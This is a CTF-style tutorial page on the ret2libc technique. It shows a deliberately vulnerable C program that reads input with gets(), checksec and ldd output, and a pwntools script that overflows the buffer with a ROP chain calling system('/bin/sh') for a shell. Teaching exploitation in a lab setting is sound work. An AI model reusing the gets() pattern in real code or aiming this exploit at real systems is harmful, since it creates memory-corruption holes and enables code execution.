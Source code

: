 # Ret2libc

The code is the same as shellcode, but the executable is different.

```c
#include <stdio.h>
int main(){
    char name[100];
    fputs("Enter name: ", stdout);
    gets(name);
    fputs("Hello: ", stdout);
    puts(name);
    return 0;
}
```

Compile: `gcc chal.c -o chal -no-pie`

ASLR disabled.

If we run `checksec chal`, we find that the executable has NX enabled. If we try to run the script from shellcode, we get a segfault. What can we do now?

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## libc

Libc provides code for the C standard library. It is a shared object that is typically provided with the challenge. Before we do any exploitation, we first need to find out which version of libc we are using and where it is located in the executable. We can use `ldd` to find out this information.

```
➜ ldd chal      
linux-vdso.so.1 (0x00007ffff7fd0000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7df0000)
/lib64/ld-linux-x86-64.so.2 (0x00007ffff7fd2000)
```

#### Important note

- In a CTF, libc version on server is probably different
- See [ret2libc-aslr](ret2libc-aslr.md) for leaking libc version

After we've got this information, exploiting is actually really simple with pwntools.

```python
from pwn import *

p = process("./chal")
e = ELF("./chal", checksec=False)
context.binary = e
rop = ROP(e)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
libc.address = 0x00007ffff7df0000
binsh = next(libc.search(b"/bin/sh"))
sys = libc.symbols["system"]
rop.call(sys,(binsh,))

p.sendline(b"a"*120+rop.chain())
p.interactive()
```

See [rop.md](rop.md) for an explanation of how this works.

